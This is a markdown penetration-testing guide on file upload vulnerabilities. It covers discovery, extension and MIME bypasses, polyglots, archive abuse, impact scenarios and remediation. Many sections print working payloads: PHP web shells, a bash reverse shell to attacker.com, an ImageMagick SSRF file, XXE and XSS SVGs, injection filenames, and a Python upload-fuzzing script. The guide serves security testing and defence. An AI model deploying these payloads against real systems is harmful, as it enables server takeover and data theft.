



# File Upload Vulnerabilities

## Mechanisms



File upload vulnerabilities occur when web applications allow users to upload files without implementing proper validation, filtering, and handling mechanisms.
These vulnerabilities can lead to various attacks, ranging from simple web defacement to complete server compromise through remote code execution.

The core technical issues behind file upload vulnerabilities include:

- **Insufficient File Type Validation**: Failure to properly validate the actual content/type of uploaded files
- **Improper Extension Handling**: Not restricting dangerous file extensions or allowing easy bypasses
- **Inadequate File Content Analysis**: Not checking the actual file content versus relying only on extension or content-type
- **Unsafe File Storage**: Storing files in executable directories or with dangerous permissions
- **File Operation Mishandling**: Not securely handling file operations during the upload process
- **Directory Traversal Vulnerabilities**: Allowing manipulation of upload paths
- **Race Conditions**: Timing issues during validation and moving of uploaded files
- **Archive Extraction Flaws**: Insecure handling of archive formats like ZIP or TAR (e.g., Symlink abuse, Zip Slip)

File upload vulnerabilities can manifest in various upload functionality patterns:

- **Profile Picture Uploads**: Common in user profiles and social media
- **Document Repositories**: File sharing services and document management systems
- **Media Uploads**: Image, video, and audio uploaders
- **Bulk Import Features**: CSV, XML, and other data import functionality
- **Content Management Systems**: Templates, plugins, themes, and media libraries

## Hunt

### Identifying File Upload Vulnerabilities

#### Target Discovery

1. **Map File Upload Functionality**:
   - Profile picture uploads
   - Document/attachment uploads
   - Import/export features
   - Media galleries
   - CMS admin sections
   - Backup/restore features
   - Avatar/image uploads

2. **Identify Upload Processing Patterns**:
   - Client-side validation patterns (JavaScript checks)
   - Server-side validation indicators
   - File type restrictions mentioned in UI
   - Error messages related to file types

3. **Testing Prerequisites**:
   - Collection of test files (various formats)
   - Proxy for intercepting requests (Burp Suite, ZAP)
   - Web shells for testing execution
   - MIME-type tools for manipulation
   - Containerized/sandboxed converters ready for validation (e.g., bwrap/seccomp profiles)

#### Testing Methodologies

1. **Basic File Upload Testing**:
   - Test uploading standard expected files (baseline)
   - Attempt uploading executable file types (PHP, ASP, JSP, etc.)
   - Modify content-type headers during upload
   - Change file extensions after client-side validation

2. **Extension-Based Testing**:
   - Test alternate extensions for web shells:
     ```
     .php, .php3, .php4, .php5, .phtml, .phar, .phpt, .pht, .phps, .php2, .php6, .php7, .inc, .shtml, .pgif
     .asp, .aspx, .ashx, .asmx, .cer, .asa
     .jsp, .jspx, .jsw, .jsv, .jspf
     .cfm, .cfml, .cfc, .dbm (Coldfusion)
     .pl, .py, .rb, .cgi
     ```
   - Test double extensions:
     ```
     file.jpg.php
     file.php.jpg
     file.php.jpeg
     file.php%00.jpg  # Null byte (older versions)
     file.php%20.jpg  # URL encoded space
     file.php%0d%0a.jpg # CRLF injection
     file.php.blah123jpg # If regex is weak
     ```
   - Test case sensitivity bypass:
     ```
     file.PhP
     file.Php5
     file.AspX
     file.pHp
     file.pHP5
     file.PhAr
     ```
   - Test trailing characters/delimiters:
     ```
     file.php.....
     file.php/
     file.php.\
     file.php. # Trailing dot (Windows specific)
     file.php%20 # Trailing space
     file.php%09 # Trailing tab
     file.php%0a # Trailing newline
     file.php%0d # Trailing carriage return
     file.php::$DATA # NTFS Alternate Data Stream (Windows specific)
     file. # No extension
     .html # Just extension
     ```
   - Test filename manipulation:
     ```
     # Try to cut extension with max filename length limit
     # Try empty filename: .php
     # Send filename parameter twice: filename="allowed.jpg";filename="shell.php"
     ```

3. **Content-Type Testing**:
   - Modify the Content-Type header to bypass MIME validation:
     ```
     Content-Type: image/jpeg  # actual file is PHP
     Content-Type: image/png   # actual file is PHP
     Content-Type: image/gif   # actual file is PHP
     Content-Type: application/x-php  # declared as image/jpeg when sent
     ```
   - Other Content-Type manipulations:
     ```
     # Remove Content-Type header entirely
     # Send Content-Type twice with allowed/disallowed values
     ```

4. **Magic Byte Forging**:
   - If validation relies on magic bytes, prefix the malicious file content with valid magic bytes of an allowed type.

   ```
   # Example: Add GIF header to a PHP shell
   GIF89a;<?php system($_GET['cmd']); ?>
   ```

5. **Polyglot File Testing**:
   - Create and test polyglot files (valid in multiple formats)
     ```
     GIFAR files (GIF + RAR)
     Valid Image + PHP code in EXIF metadata
     PDF + PHP code
     SVG + JavaScript for XSS
     ```
   - see [@dan_crowley's talk](http://goo.gl/pquXC2) and [@angealbertini research](https://github.com/abzcoding/Notes/blob/master/pentest/corkami.com)

6. **Path and Filename Abuse Testing**:
   - Test path traversal in filename:
     ```
     filename=../../../../etc/passwd
     filename=/etc/passwd
     filename=\\attacker-site.com\file.png # UNC Path (Windows specific, may trigger SMB connection)
     ```
   - Test injections via filename (if filename is processed unsafely):
     ```
     filename=a$(whoami)z.png # Command Injection
     filename=a`whoami`z.png  # Command Injection
     filename="a';select+sleep(10);--z.png" # SQL Injection
     filename=https://internal.service/data # SSRF attempt
     ```
   - Test DoS via large filename (e.g., 255+ characters).

7. **Archive Testing (Zip/Tar)**:
   - **Zip Slip**: Create archives with path traversal (`../../tmp/shell.php`).
   - **Symlink Abuse**: Include symlinks in archives pointing to sensitive files (`ln -s /etc/passwd link.txt`).
   - **Tar Permissions Abuse**: Create tar with restrictive parent dir permissions (`chmod 300`) but permissive subdir (`chmod 700`) containing symlinks.
   - Also test LFI access via zip wrapper: `site.com/path?page=zip://path/to/uploaded/file.zip%23shell.php`

8. **ImageMagick Testing**:
   - Test for vulnerabilities like SSRF, LFI, RCE (e.g., ImageTragick CVEs) if the server uses ImageMagick for image processing.
   - See details in the "Impact Scenarios -> ImageMagick Vulnerabilities" section.

9. **Third-Party Library Testing**:
   - Check for vulnerabilities in libraries used for processing uploads (e.g., ExifTool CVE-2021-22204).

10. **Race Condition Testing**:
    - **File Upload Race**: Rapidly request the uploaded file path immediately after initiating the upload, attempting access before validation/removal.
    - **URL-Based Upload Race**: If uploading via URL, rapidly request the temporary local copy path while the server fetches/validates.
    - **HTTP/2 Multiplex Smuggling**: Abuse concurrent stream uploads to bypass validation or size limits by interleaving unvalidated chunks.
    - **Temp path reads**: Try accessing temporary upload paths before move/scan completes.

11. **SSRF via HTTP Range Requests**:
    - If uploading via URL, try manipulating `Range` headers to potentially redirect parts of the download to internal servers.

### Bypass Techniques



#### Client-Side Validation Bypasses

1. **Disabling JavaScript**:
   - Disable JavaScript to bypass client-side checks
   - Use browser developer tools to modify the DOM

2. **Request Interception**:
   - Intercept and modify upload requests using Burp Suite or ZAP
   - Change file parameters post-validation

3. **Extension Manipulation Techniques**:

```
# Null byte injection (for PHP < 5.3.4)
shell.php%00.jpg
shell.php\x00.jpg

# Using alternate representations
shell.php.....
shell.php;.jpg
shell.php::$DATA.jpg

# Manipulating request content
1. Upload legitimate image
2. Intercept request
3. Replace file content with shell while keeping filename
```

4. **MIME-Type Manipulation**:
   - Modify Content-Type header to match expected type
   - Change file signature/magic bytes to appear as legitimate format

#### Server-Side Validation Bypasses

1. **Metadata Injection**:
   - Inject code into image metadata (EXIF)

   ```
   exiftool -Comment="<?php system(\$_GET['cmd']); ?>" payload.jpg
   ```

2. **Image Content Manipulation**:
   - Create images containing server-side code

   ```
   # PHP code in GIF file
   GIF89a;
   <?php system($_GET['cmd']); ?>
   ```

3. **Advanced Polyglot Techniques**:
   - Create files that are valid in multiple formats

   ```
   # Valid JPG and PHP
   Create JPG with PHP code after the image data
   Add PHP code to EXIF data
   ```

4. **Path Traversal in Upload Locations**:

   ```
   filename=../../../tmp/shell.php
   filename=..%2f..%2f..%2ftmp%2fshell.php
   filename=../../etc/passwd/logo.png # Example LFI attempt
   filename=\\attacker-site.com\file.png # UNC Path (Windows specific)
   ```

5. **Common DenyList Bypass**:

   ```
   escape "/" with "\/" or "//" with "\/\/"
   try single "/" instead of "//"
   remove http i.e. "continue=//google.com"
   "/\/\" , "|/" , "/%09/"
   encode, slashes
   "./" CHANGE TO "..//"
   "../" CHANGE TO "....//"
   "/" CHANGE TO "//"
   filename=..%2f..%2f..%2ftmp%2fshell.php
   # Check IIS specific extensions if applicable
   filename=shell.cer
   filename=shell.asa
   # Windows specific bypasses
   filename=shell.aspx. # Trailing dot
   filename=shell.php::$DATA # Alternate Data Stream (ADS)
   filename=shell.php:.jpg # ADS confusion
   ```

6. **GIF Comment Bypass**:
   - Inject payload within GIF comments.

   ```
   GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
   ```

7. **Magic Byte Forging**:
   - Prepend malicious file content with the magic bytes of an allowed file type.
   ```
   # Example: GIF header + PHP shell
   GIF89a;
   <?php echo 'Magic Byte Bypass'; phpinfo(); ?>
   ```

## Vulnerabilities

### Common File Upload Vulnerability Patterns



#### Implementation-Specific Vulnerabilities

1. **CMS Upload Vulnerabilities**:
   - **WordPress**: Plugin and theme uploaders
     ```
     Upload plugin ZIP with malicious PHP files
     SVG uploads with XSS in media library
     ```
   - **Drupal**: Module installations
     ```
     Malicious module installation via admin panel
     ```
   - **Joomla**: Template uploads
     ```
     Malicious template installation
     ```

2. **Framework Upload Vulnerabilities**:
   - **PHP**: File upload handling in common frameworks
     ```
     Laravel file upload middleware bypass
     CodeIgniter upload library misconfiguration
     ```
   - **Java**: Spring MVC file upload handlers
     ```
     Spring MultipartResolver misconfiguration
     ```
   - **ASP.NET**: File upload components
     ```
     ASP.NET FileUpload control misconfiguration
     ```

3. **Language-Specific Upload Vulnerabilities**:
   - **PHP**: move_uploaded_file() race conditions
   - **Java**: Temporary file creation vulnerabilities
   - **Node.js**: Express-fileupload vulnerabilities

### Impact Scenarios

#### Extension Impact Matrix

Common file extensions and their potential security impacts:

- **Web Shells & RCE**:
  - `.php`, `.php3`, `.php4`, `.php5`, `.phtml`, `.phar`, `.phpt`
  - `.asp`, `.aspx`, `.ashx`, `.asmx`, `.asa`, `.cer`, `xamlx` (ASP.NET)
  - `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf` (Java Server Pages)
  - `.cfm`, `.cfml`, `.cfc`, `.dbm` (ColdFusion)
  - `.pl`, `.py`, `.rb`, `.cgi`
  - `.htaccess` (if Apache allows override, can reconfigure PHP handling or execute commands)
  - `.config` (web.config for IIS/ASP.NET)
- **Client-Side Attacks**:
  - `.svg`: Stored XSS, SSRF, XXE
  - `.gif`: Stored XSS (via comments), SSRF
  - `.html`, `.js`: HTML injection, XSS, Open redirect, Phishing
  - `.wasm`: WebAssembly modules for client-side code execution
  - `.webp`, `.avif`: Modern image format parser bugs
- **Server-Side Attacks**:
  - `.csv`: CSV injection (Formula Injection)
  - `.xml`: XXE
  - `.avi`, `.mov`: Potential LFI, SSRF (via external streams/subtitles)
  - `.pdf`, `.pptx`: SSRF, Blind XXE (via external entities/references)
  - `.zip`: RCE via LFI (using `zip://` wrapper), DoS (Zip Bomb), Zip Slip (Path Traversal during extraction)
  - `.scf` (Windows Shortcut): RCE (forces NTLM hash disclosure when browsed via UNC path)
- **Denial of Service**:
  - `.png`, `.jpeg`: Pixel flood attack (large dimensions/compressed data)
  - Large filenames: `1234...99.png` (e.g., > 255 chars)
  - Zip bombs (highly compressed archives)
  - Files exploiting parser libraries (ImageTragick, XML bombs)

#### Remote Code Execution (RCE)

- **Web Shell Uploading**: Gaining command execution on the server
  ```php
  <?php system($_GET['cmd']); ?>
  ```
- **Reverse Shell Deployment**: Establishing persistent control
  ```php
  <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/443 0>&1'");?>
  ```

#### File Inclusion Attack Chains

- **LFI via Uploaded Files**: Chaining local file inclusion with uploads
  ```
  1. Upload malicious file (e.g., `avatar.jpg` containing PHP code).
  2. Trigger inclusion via LFI vulnerability (e.g., `/?page=../../uploads/avatar.jpg`).
  ```
- **LFI via Zip Wrapper**:
  ```
  1. Upload malicious file inside a zip (e.g., `archive.zip` containing `shell.php`).
  2. Trigger inclusion: `/?page=zip://uploads/archive.zip%23shell.php`
  ```

#### XSS via Uploaded Files

- **SVG-Based XSS**:
  ```xml
  <?xml version="1.0" standalone="no"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
     <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
     <script type="text/javascript">
        alert("XSS via SVG");
     </script>
  </svg>
  ```
- **GIF Comment XSS**:
  ```
  GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
  ```
- **HTML/JS File Uploads**:
  ```html
  <!-- If .html or .js uploads are allowed and rendered -->
  <script>
    alert(document.cookie);
  </script>
  ```
- **Filename-Based XSS**:
  ```
  filename="<svg onload=alert(1)>.jpg"
  filename="xss.<svg onload=alert(1)>.jpg"
  ```

#### Server-Side Request Forgery (SSRF) via Uploads

- **XXE in SVG Uploads**:
  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "http://internal.service/resource"> ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
     <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```
- **SVG Image Href SSRF**:
  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200">
    <image height="200" width="200" xlink:href="http://internal-metadata-server/latest/meta-data/" />
  </svg>
  ```
- **PDF/PPTX SSRF**: Exploiting features that fetch external resources.
- **Upload from URL Feature**: If the application allows providing a URL for upload, test internal IPs/metadata endpoints.
- **SSRF via Filename**: Submitting a URL as the filename (`filename=http://internal...`).
- **SSRF via HTTP Range Requests**: Manipulating `Range` header during URL fetch.

#### XXE via Uploads

- **XML File Upload**: Standard XXE payloads in `.xml` files.
- **SVG File Upload**: See SSRF example above.
- **Excel File Upload (`.xlsx`)**: `.xlsx` files are zip archives containing XML files (like `sharedStrings.xml`) which can be crafted with XXE payloads.
- **PDF/PPTX Blind XXE**: Similar to SSRF, using external entity references.

#### Open Redirect via Uploads

- **SVG Open Redirect**:
  ```xml
  <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
  <svg onload="window.location='https://attacker.com'" xmlns="http://www.w3.org/2000/svg">
    <rect width="300" height="100"/>
  </svg>
  ```

#### Command Injection via Filename

- If the filename is passed unsanitized to shell commands:
  ```
  filename="; sleep 10;.jpg"
  filename="`sleep 10`.jpg"
  filename="$(sleep 10).jpg"
  ```

#### SQL Injection via Filename

- If the filename is used unsanitized in SQL queries:
  ```
  filename="' OR SLEEP(10)-- -.jpg"
  filename="sleep(10)-- -.jpg"
  filename="'sleep(10).jpg" # Different quoting/termination
  ```

#### Denial of Service (DoS)

- **Pixel Flood Attack**: Uploading specially crafted images (e.g., `lottapixel.jpg`) that consume excessive resources during processing. ([Reference](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/file-upload/malicious-images/lottapixel.jpg))
- **Zip Bomb**: Uploading highly compressed archives that expand significantly.
- **Large Filename**: Using extremely long filenames can sometimes cause issues or DoS.
- **Uploading files with content that exploits parsing libraries (e.g., ImageTragick, billion laughs XXE).**
- **Uploading `.eml` files with `Content-Type: text/html` if processed insecurely.**
- **FFmpeg/Video Processing**: Upload crafted video files (`.mp4`, `.avi`, `.mov`) with malicious metadata or subtitles to trigger SSRF/RCE in video converters.
- **HEIC/AVIF Processing**: Exploit parsing bugs in libheif/libavif during thumbnail generation.
- **PDF.js Browser Rendering**: Upload PDFs with malicious annotations or forms that exploit client-side renderers.

#### Additional Attack Vectors

##### ImageMagick Vulnerabilities

1. Using .mvg files for SSRF/LFI:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://attacker.com/)'
pop graphic-context
```

2. Using the gifoeb tool for memory disclosure:

```bash
./gifoeb gen 512x512 dump.gif
# Try different extensions:
./gifoeb gen 1123x987 dump.jpg
./gifoeb gen 1123x987 dump.png
# Recover pixels after upload and download:
# for p in previews/*; do ./gifoeb recover $p | strings; done
```

##### WAF Bypass Techniques

1. URL Parameter Manipulation:

```
/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed
```

2. Content-Type Manipulation with Metadata:

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg
mv shell.jpg shell.php.jpg
```

### New CVEs

- **CVE-2024-29510 – Ghostscript ≤ 10.03.0 EPS/JPG RCE**: Exploit via EPS-in-JPG polyglot when Ghostscript is used for image conversion.
- **CVE-2024-53677 – Apache Struts S2-067**: Multipart upload path-traversal leading to RCE.
- **CVE-2024-57169 – SOPlanning ≤ 1.53**: Arbitrary file upload to the web-root.
- **CVE-2024-48514 – php-heic-to-jpg ≤ 1.0.5**: Filename sanitisation bypass resulting in RCE during HEIC conversion.
- Image processing stacks (libvips/Sharp, GraphicsMagick/ImageMagick, Ghostscript, pdfium) continue to receive critical parser bugs; sandbox converters and track advisories.
- HEIC/AVIF conversion pipelines frequently mishandle temporary files and trust `Content-Type`/magic bytes.
- Serverless image proxies (imgproxy, Thumbor, custom Lambda/Cloud Functions) often allow SSRF/LFI via remote URL sources.

## Methodologies

### Tools

#### File Upload Vulnerability Testing Tools

- **Burp Suite**: Content-Type and request manipulation, Intruder for fuzzing
- **OWASP ZAP**: Automated scanning for upload vulnerabilities
- **ExifTool**: Metadata manipulation for bypass testing
- **Weevely**: Web shell generation tool
- **Fuxploider**: File upload vulnerability scanner ([GitHub](https://github.com/almandin/fuxploider))
- **Upload Scanner (Burp Extension)**: ([PortSwigger BApp Store](https://portswigger.net/bappstore))
- **FUFF / ffuf / wfuzz**: Fuzzing file upload endpoints, extensions, parameters

#### Custom Testing Scripts

```python
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

def test_file_upload(target_url, file_path, file_name, content_type):
    """
    Test file upload with custom parameters
    """
    multipart_data = MultipartEncoder(
        fields={
            'file': (file_name, open(file_path, 'rb'), content_type)
        }
    )

    headers = {
        'Content-Type': multipart_data.content_type
    }

    response = requests.post(target_url, data=multipart_data, headers=headers)

    # Return response for analysis
    return {
        'status_code': response.status_code,
        'response_text': response.text,
        'response_headers': dict(response.headers)
    }

# Example usage:
target = 'https://target.com/upload.php'
test_cases = [
    # Basic tests
    {'path': 'shell.php', 'name': 'legitimate.jpg', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php.jpg', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php%00.jpg', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php%20.jpg', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php%0d%0a.jpg', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php.blah123jpg', 'type': 'image/jpeg'},
    # Content-type tests
    {'path': 'legitimate.jpg', 'name': 'legitimate.jpg', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php', 'type': 'image/jpeg'},
    {'path': 'shell.php', 'name': 'shell.php', 'type': 'image/gif'},
    # Extension tests
    {'path': 'shell.php', 'name': 'shell.phtml', 'type': 'application/x-php'},
    {'path': 'shell.php', 'name': 'shell.PhP', 'type': 'application/x-php'},
    {'path': 'shell.php', 'name': 'shell.php.', 'type': 'application/octet-stream'},
    {'path': 'shell.php', 'name': 'shell.php%20', 'type': 'application/octet-stream'},
]

for test in test_cases:
    result = test_file_upload(target, test['path'], test['name'], test['type'])
    print(f"Testing {test['name']} ({test['type']}): {result['status_code']}")
```

### Testing Strategies

#### Comprehensive File Upload Testing Process

1. **Discovery Phase**:
   - Map all file upload functionality
   - Identify client-side and server-side validation patterns
   - Document allowed file types and upload restrictions

2. **Initial Testing Phase**:
   - Test baseline functionality with expected file types
   - Test basic restriction bypasses:
     - Extension manipulation
     - Content-Type manipulation
     - Simple payload attempts

3. **Advanced Testing Phase**:
   - Test for complex bypass techniques:
     - Polyglot files
     - Metadata injection
     - Race conditions
     - Upload directory traversal

4. **Exploitation Phase**:
   - Verify code execution for successful uploads
   - Test chained attack scenarios
   - Document impact and attack chains

5. **Post-Exploitation Testing**:
   - Test upload persistence
   - Test access control on uploaded files
   - Test ability to access uploads across user contexts

#### Real-World Testing Examples

##### CMS File Upload Testing

1. Identify CMS type and version
2. Map file upload functionality (plugins, themes, media)
3. Test bypasses specific to the CMS:
   - WordPress: Plugin installation with malicious PHP
   - Drupal: Module upload with executable code
   - Joomla: Template upload with backdoor
4. Verify code execution

##### Multi-step Bypass Testing

1. Attempt standard upload with blocked extension (.php)
2. If blocked, try modification techniques:
   - Double extensions (.jpg.php)
   - Alternate extensions (.phtml, .php5)
   - Case manipulation (.pHP)
3. If still blocked, try content manipulation:
   - Change Content-Type header
   - Modify magic bytes
   - Use polyglot techniques
4. If successful, verify execution path

##### SVG Upload for XSS Testing

1. Create malicious SVG:

```
   <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.cookie)"/>
```

2. Upload to target site
3. Access uploaded SVG directly or in context
4. Verify XSS execution

## Remediation Recommendations

- **Implement Proper Validation**:
  - Validate file type using content inspection, not just extension
  - Use file signature/magic byte checking
  - Implement allowlist approach for permitted file types AND extensions (Defense in Depth)

- **Apply Multiple Security Layers**:
  - Implement client-side AND server-side validation
  - Use content-type validation AND extension validation
  - Scan uploaded files with security tools
  - Use separate domains or CDNs for user-uploaded content (reduces XSS risk)
  - Implement proper, restrictive permissions on upload directories (prevent execution)

- **Store Files Securely**:
  - Store uploaded files outside the web root when possible
  - Use separate domains for user-uploaded content
  - Implement proper permissions on upload directories

- **Process Uploaded Files**:
  - Remove metadata from images
  - Re-encode/compress uploaded images
  - Strip potentially dangerous content
  - Use random, unpredictable filenames generated by the server (prevents guessing/overwriting)
  - Validate file paths against directory traversal
  - Content Disarm & Reconstruction (CDR): re-encode or convert documents and images on a trusted pipeline before storage or delivery.
  - Sandbox Image/Document Converters: run Ghostscript, ImageMagick, and HEIC libraries under seccomp, Firejail, or bubblewrap to contain 0-days.
  - Supply-Chain Hygiene: track image/document-processing dependencies with an SBOM (e.g., Syft) and enable automated updates via Dependabot or Renovate.

- **Implement File Upload Best Practices**:
  - Set upload size limits
  - Implement file scanning for malware
  - Use random, unpredictable filenames
  - Validate file paths against directory traversal

- **Context-Specific Controls**:
  - For image uploads: Validate dimensions and recompress
  - For document uploads: Convert to PDF or other safe format
  - For code uploads: Implement sandbox execution environment or strict validation/linting

- **HTTP Headers**:
  - For downloaded files, set `Content-Disposition: attachment; filename="user_safe_filename.ext"` to force download prompt.
  - Set `X-Content-Type-Options: nosniff` to prevent browsers from MIME-sniffing the content type away from the declared one.

### Cloud / Object-Storage Upload Checklist

- Use presigned URLs with **short TTL (≤ 60 s)** and **single-use** semantics.
- Enforce `bucket-owner-enforced` ACL or **Object Lock** to prevent post-scan overwrites.
- Require **server-side encryption** headers (for example `x-amz-server-side-encryption`) on presigned PUTs.
- Restrict the IAM role used for uploads to **PutObject** only; deny `GetObject` and `DeleteObject` unless required.
- Validate the object key on the backend after upload; reject keys containing `../` or control characters.
- For compute workers processing uploads, enforce **IMDSv2** and limit egress to mitigate SSRF pivots.

### Cloud/Object Storage Advanced

- Presigned POST policies: verify policy `conditions` enforce `content-type`, size, and key prefix; reject uploads whose actual `Content-Type` differs at processing time.
- Compute ETag/MD5 checks; reject mismatched `Content-MD5` values; beware S3 multipart ETag semantics for multi-part uploads.
- Scan and quarantine newly uploaded objects before publishing; block overwrites via Object Lock; publish via a separate, read-only bucket.
- Prevent key confusion: disallow keys with `%2f`, unicode homoglyphs, or hidden dot segments that may bypass prefix-only allowlists.
- CDN/image pipeline: disable remote URL sources or restrict to allowlisted domains with DNS pinning; strip metadata and re-encode.
- Enforce V4 signature strictness on presigned URLs; reject headers not in policy; verify expiration on access.

### Chunked/Streaming and CDN/Image Pipelines

- HTTP chunked smuggling: proxies may stream parts to backends before full validation; ensure backends validate final file after full receive.
- Parallel/multipart chunk races: verify server holds uploads in a quarantine path until all validations complete; deny direct reads from temp locations.
- Image pipelines with `?url=` sources: treat as SSRF; block private IPs, localhost, and metadata endpoints; enforce DNS rebinding protections.
